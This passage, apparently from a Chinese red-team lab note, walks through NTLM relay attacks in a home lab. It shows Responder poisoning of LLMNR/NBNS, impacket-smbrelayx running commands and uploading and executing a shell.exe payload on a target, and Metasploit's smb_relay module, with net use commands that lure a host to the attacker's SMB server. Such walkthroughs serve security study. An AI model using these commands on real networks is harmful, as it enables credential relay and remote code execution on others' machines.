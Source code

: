 重启 Responder.py，准备毒化（这里 responder 的作用就是当访问一个不存在的共享路径，将称解析降到 LLMNR/NBNS 时，来抓取网络中所有的 LLMNR 和 NetBIOS 请求并进行响应）
```
responder -I eth0
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/3.png)

在 DC（192.168.141.130）上随便传递一个 SMB 流量
```
net use \\whoami
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/4.png)

可以看到已经拿到了目标机器的 shell

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/5.png)

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/6.png)

---

#### Impacket smbrelayx

```
impacket-smbrelayx -h <被攻击ip> -c whoami
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/8.png)

让任意主机访问这个攻击者精心构造好的 SMB 服务器：
```
net use \\<kali IP>
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/7.png)

此时，攻击者的 smbrelayx 脚本上就会发现命令成功执行了

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/9.png)

```
impacket-smbrelayx -h <被攻击ip> -e shell.exe
```
用 -e 选项会在目标主机上传并运行我们的 payload

---

#### Metasploit smb_relay(08-068)

```
use exploit/windows/smb/smb_relay
run
```

在目标的 cmd 中执行 `net use \\<kali ip>\c$` 来访问攻击者搭建的恶意 smb 服务

---